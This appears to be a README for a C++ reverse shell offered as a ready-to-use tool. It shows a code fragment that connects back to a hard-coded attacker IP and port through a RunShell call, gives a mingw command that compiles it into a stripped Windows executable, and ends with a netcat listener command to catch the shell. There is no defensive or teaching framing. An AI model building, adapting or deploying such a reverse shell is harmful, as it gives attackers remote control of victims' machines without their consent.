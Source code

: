 # c++ reverse shell


#### 1. chnage The IP and Port number in the source code
![alt text](https://raw.githubusercontent.com/username/projectname/branch/path/to/img.png)
   
    70 else {
    71    char host[] = "192.168.0.101";  // change this to your ip address
    72    int port = 4444;                //chnage this to your open port
    73    RunShell(host, port);
    74}
    




#### 2. Complie it in lunix 
 
    i686-w64-mingw32-g++ re.cpp -o re.exe -lws2_32 -lwininet -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc



#### 3. Start the netcat Listener.

    nc -lvnp <port number>
